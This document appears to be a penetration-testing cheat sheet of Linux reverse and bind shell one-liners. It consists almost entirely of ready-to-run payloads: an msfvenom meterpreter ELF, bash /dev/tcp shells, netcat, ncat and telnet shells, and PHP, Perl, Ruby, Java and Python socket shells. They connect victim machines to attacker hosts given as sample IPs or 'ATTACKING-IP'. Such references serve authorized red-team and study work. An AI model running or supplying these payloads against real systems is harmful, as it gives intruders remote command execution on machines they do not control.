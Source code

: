 # Linux

## Spawn a Shell Without Knowing which Language

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

## Binary

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

## Bash

```bash
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
```

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## PHP

```bash
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Netcat

### **Bind Shell**

```bash
nc -nvlp 5555 -e /bin/bash #(victim)
nc 192.168.1.101 5555 #(attacker)
```

### **Reverse Shell**

```bash
nc -nlvp 5555 #(attacker)
nc 192.168.1.101 5555 -e /bin/bash #(victim)
```

### **With -e Flag**

```bash
nc -e /bin/sh ATTACKING-IP 80 #victim?
/bin/sh | nc ATTACKING-IP 80 #attacker?
```

### **Without -e Flag**

```bash
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

### Another Good Resource

* [Netcat Reverse Shell from O'Reilly](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/b76e6441-5999-45e4-949e-bd332cb21cce.xhtml)

## Ncat \(Modern Version of Netcat\)

### **Bind**

```bash
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl #victim?
ncat -v 192.168.1.103 5555 --ssl #attacker?
```

### Telnet

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p #victim?
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443 #attacker?
```

### **Perl**

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### **Ruby**

```bash
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### **Java**

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

